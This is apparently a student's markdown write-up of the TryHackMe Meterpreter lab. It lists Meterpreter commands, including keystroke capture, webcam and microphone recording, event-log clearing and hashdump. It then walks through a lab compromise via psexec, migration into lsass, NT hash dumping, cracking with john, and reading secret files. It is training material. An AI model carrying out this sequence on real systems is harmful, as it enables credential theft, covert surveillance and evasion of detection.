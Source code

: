 <!-- TOC -->

- [Metasploit: Meterpreter](#metasploit-meterpreter)
    - [Meterpreter commands](#meterpreter-commands)
    - [Post-Exploitation Challenge](#post-exploitation-challenge)

<!-- /TOC -->

# Metasploit: Meterpreter

[Metasploit: Meterpreter Room](https://tryhackme.com/room/meterpreter)

Take a deep dive into Meterpreter, and see how in-memory payloads can be used for post-exploitation.

## Meterpreter commands

Core commands:

- `background`: Backgrounds the current session
- `exit`: Terminate the Meterpreter session
- `guid`: Get the session GUID (Globally Unique Identifier)
- `help`: Displays the help menu
- `info`: Displays information about a Post module
- `irb`: Opens an interactive Ruby shell on the current session
- `load`: Loads one or more Meterpreter extensions
- `migrate`: Allows you to migrate Meterpreter to another process
- `run`: Executes a Meterpreter script or Post module
- `sessions`: Quickly switch to another session

File system commands:

- `cd`: Will change directory
- `ls`: Will list files in the current directory (dir will also work)
- `pwd`: Prints the current working directory
- `edit`: will allow you to edit a file
- `cat`: Will show the contents of a file to the screen
- `rm`: Will delete the specified file
- `search`: Will search for files
- `upload`: Will upload a file or directory
- `download`: Will download a file or directory

Networking commands:

- `arp`: Displays the host ARP (Address Resolution Protocol) cache
- `ifconfig`: Displays network interfaces available on the target system
- `netstat`: Displays the network connections
- `portfwd`: Forwards a local port to a remote service
- `route`: Allows you to view and modify the routing table

System commands:

- `clearev`: Clears the event logs
- `execute`: Executes a command
- `getpid`: Shows the current process identifier
- `getuid`: Shows the user that Meterpreter is running as
- `kill`: Terminates a process
- `pkill`: Terminates processes by name
- `ps`: Lists running processes
- `reboot`: Reboots the remote computer
- `shell`: Drops into a system command shell
- `shutdown`: Shuts down the remote computer
- `sysinfo`: Gets information about the remote system, such as OS

Others Commands (these will be listed under different menu categories in the help menu):

- `idletime`: Returns the number of seconds the remote user has been idle
- `keyscan_dump`: Dumps the keystroke buffer
- `keyscan_start`: Starts capturing keystrokes
- `keyscan_stop`: Stops capturing keystrokes
- `screenshare`: Allows you to watch the remote user's desktop in real time
- `screenshot`: Grabs a screenshot of the interactive desktop
- `record_mic`: Records audio from the default microphone for X seconds
- `webcam_chat`: Starts a video chat
- `webcam_list`: Lists webcams
- `webcam_snap`: Takes a snapshot from the specified webcam
- `webcam_stream`: Plays a video stream from the specified webcam
- `getsystem`: Attempts to elevate your privilege to that of local system
- `hashdump`: Dumps the contents of the SAM database

## Post-Exploitation Challenge

| Title | IP Address |
| :----: | :----: |
| Win4Meterpreter | `1*.**.***.***` |

LHOST using `msfconsole`:

```bash
db_nmap -A -vv -T4 -oN initial 1*.**.***.***
user exploit/windows/smb/psexec
hosts -R
set lhost 1*.*.**.**
set smbuser ballen
set smbpass Password1
run
```

RHOST using `meterpreter`:

```bash
sysinfo
```

> `Computer : A***-T***`

> `Domain : F****`

```bash
background
```

LHOST using `msfconsole`:

```bash
use post/windows/gather/enum_shares
set session 1
run
```

> `[*] Name: s********`

```bash
sessions 1
```

RHOST using `meterpreter`:

```bash
ps
```

> `756 632 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\lsass.exe`

```bash
migrate 756
hashdump
```

> `jchambers:1114:aad3b435b51404eeaad3b435b51404ee:6*******************************:::`

- Copy

```bash
background
```

LHOST using `msfconsole`:

```bash
cat > hash
```

- Paste

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

> `T******* (?)`

```bash
sessions 1
```

RHOST using `meterpreter`:

```bash
search -f secrets.txt
```

> `C:\P****** F**** (***)\W****** M********* P*******\secrets.txt (35 bytes)`

```bash
cat "C:\P****** F**** (***)\W****** M********* P*******\secrets.txt"
```

> `My Twitter password is KDS********!`

```bash
search -f realsecret.txt
```

> `C:\*******\*******\realsecret.txt (34 bytes)`

```bash
cat "C:\*******\*******\realsecret.txt"
```

> `T** F**** i* t** f****** m** a****`

